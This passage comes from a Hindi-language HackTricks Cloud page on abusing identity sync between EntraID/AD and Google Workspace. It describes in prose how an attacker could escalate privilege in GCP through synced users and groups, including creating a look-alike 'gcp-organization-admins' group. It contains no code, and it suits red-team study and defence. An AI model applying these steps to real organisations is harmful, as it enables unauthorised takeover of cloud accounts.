* यदि आपके पास उपयोगकर्ताओं के **ईमेल** तक पहुंच है, तो आप **एक मौजूदा उपयोगकर्ता का Workspace पासवर्ड बदल सकते हैं**, या **एक नया उपयोगकर्ता बना सकते हैं**, जब तक कि यह समन्वयित न हो जाए और खाता सेटअप करें।

एक बार जब आप Workspace के अंदर उपयोगकर्ता तक पहुंच प्राप्त कर लेते हैं, तो उसे कुछ **अनुमतियाँ डिफ़ॉल्ट रूप से दी जा सकती हैं**।

#### समूहों पर हमला

आपको पहले यह पता लगाना होगा कि कौन से समूह समन्वयित हो रहे हैं। हालांकि यह संभावना है कि **सभी** समूह समन्वयित हो रहे हैं (जैसा कि Workspace इसकी अनुमति देता है)।

{% hint style="info" %}
ध्यान दें कि भले ही समूह और सदस्यताएँ Workspace में आयात की गई हों, **जो उपयोगकर्ता उपयोगकर्ता समन्वयन में समन्वयित नहीं हैं वे समूह समन्वयन के दौरान नहीं बनाए जाएंगे** भले ही वे किसी भी समन्वयित समूह के सदस्य हों।
{% endhint %}

यदि आप जानते हैं कि Azure के कौन से समूह **Workspace या GCP में अनुमतियाँ सौंपे जा रहे हैं**, तो आप बस एक समझौता किए गए उपयोगकर्ता (या नए बनाए गए) को उस समूह में जोड़ सकते हैं और उन अनुमतियों को प्राप्त कर सकते हैं।

Workspace में मौजूदा विशेषाधिकार प्राप्त समूहों का दुरुपयोग करने का एक और विकल्प है। उदाहरण के लिए, समूह `gcp-organization-admins@<workspace.email>` आमतौर पर GCP पर उच्च विशेषाधिकार रखता है।

यदि, उदाहरण के लिए, EntraID से Workspace में समन्वयन **आयातित वस्तु के डोमेन को Workspace के ईमेल से बदलने के लिए कॉन्फ़िगर किया गया है**, तो एक हमलावर के लिए EntraID में समूह `gcp-organization-admins@<entraid.email>` बनाना संभव होगा, इस समूह में एक उपयोगकर्ता जोड़ें, और सभी समूहों के समन्वयन की प्रतीक्षा करें।\
**उपयोगकर्ता समूह `gcp-organization-admins@<workspace.email>` में जोड़ा जाएगा, GCP में विशेषाधिकार बढ़ाते हुए।**

### Google Workspace -> AD/EntraID

ध्यान दें कि Workspace को उपयोगकर्ताओं और समूहों को समन्वयित करने के लिए AD या EntraID पर केवल पढ़ने की पहुंच वाले क्रेडेंशियल्स की आवश्यकता होती है। इसलिए, AD या EntraID में कोई भी परिवर्तन करने के लिए Google Workspace का दुरुपयोग करना संभव नहीं है। इसलिए **यह इस समय संभव नहीं है**।

मुझे यह भी नहीं पता कि Google AD क्रेडेंशियल्स या EntraID टोकन को कहाँ संग्रहीत करता है और आप **समन्वयन को फिर से कॉन्फ़िगर करके उन्हें पुनर्प्राप्त नहीं कर सकते** (वे वेब फॉर्म में नहीं दिखाई देते, आपको उन्हें फिर से देना होगा)। हालाँकि, वेब से वर्तमान कार्यक्षमता का दुरुपयोग करके **उपयोगकर्ताओं और समूहों की सूची** बनाना संभव हो सकता है।

## संदर्भ

* [https://www.youtube.com/watch?v=FEQxHRRP\_5I](https://www.youtube.com/watch?v=FEQxHRRP\_5I)
* [https://issues.chromium.org/issues/40063291](https://issues.chromium.org/issues/40063291)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर हमें **फॉलो करें** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।**

</details>
{% endhint %}
